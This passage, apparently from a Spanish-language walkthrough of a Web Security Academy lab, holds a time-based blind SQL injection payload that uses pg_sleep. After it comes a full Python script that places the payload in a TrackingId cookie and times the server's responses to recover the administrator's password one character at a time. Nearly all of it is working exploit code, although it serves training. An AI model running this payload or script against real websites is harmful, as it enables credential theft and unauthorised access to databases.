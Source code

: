 ```mysql
'||(select case when substring(password,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Ahora todo esto lo vamos a implementar en el script de `python3` quedando de la siguiente manera...

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a6600b9032c16a080e253b500290045.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "fdDQYd0euaN829vd'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                                'session': 'BbXQwHYZxUm7EVaew4zA2uNgh4QKq8hi'
                        }

                        p1.status(cookies['TrackingId'])

                        time_start = time.time()

                        r = requests.get(main_url, cookies=cookies)

                        time_end = time.time()

                        if time_end - time_start > 1.5: #Comparacion si el tiempo que tarda es mayor que 1.5 es la correcta
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```
